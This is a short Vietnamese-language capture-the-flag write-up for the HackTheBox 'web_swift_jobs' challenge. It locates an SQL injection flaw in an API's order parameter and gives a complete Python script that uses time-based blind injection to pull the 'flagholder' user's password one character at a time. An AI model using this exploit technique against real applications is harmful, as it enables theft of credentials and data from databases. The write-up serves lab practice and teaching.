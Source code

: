 ![alt text](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_swift_jobs/Untitled4.png)

mã nguồn được cho sẵn, ở hàm __getPosts__ trong tệp __database.js__ bị lỗi __sqli__
![alt text](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_swift_jobs/Untitled.png)

trong đường dẫn __/api/list có dùng hàm getPosts__ này
![alt text](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_swift_jobs/Untitled1.png)

flag được để trong __tables users__ ở dòng mà username là __flagholder__
![alt text](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_swift_jobs/Untitled3.png)

ta viết code để khai khác lấy flag

![alt text](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_swift_jobs/Untitled5.png)

```url = 'http://188.166.173.208:30042/api/list'

import requests, string, time
arr = "_}"+ string.digits+ string.ascii_letters  + string.punctuation
s = requests.session()
def bind(step):
    for char in arr:
        a = time.time()
        s.post(url,data={'order':f"(select case when (select ascii(mid((select password from users  where username='flagholder'),{step},1))) LIKE {ord(char)} then sleep(0.6) else 1 end)"})
        b = time.time()
        if b-a > 4:
            return char
    return None        

def flag():
    flag = 'HTB{'
    step = len(flag) + 1 
    while True:
        c = bind(step)
        if c==None or c=='}':
            return flag + c
            
        flag += c 
        step += 1
        print('[+] flag = ',flag)

print('[+] flag = ',flag())
```
<br />
[source của bài này](https://github.com/magnetohvcs/ctf/raw/main/ctf-hackthebox/Auth0-CTF/web_swift_jobs/web_swift_jobs.zip)
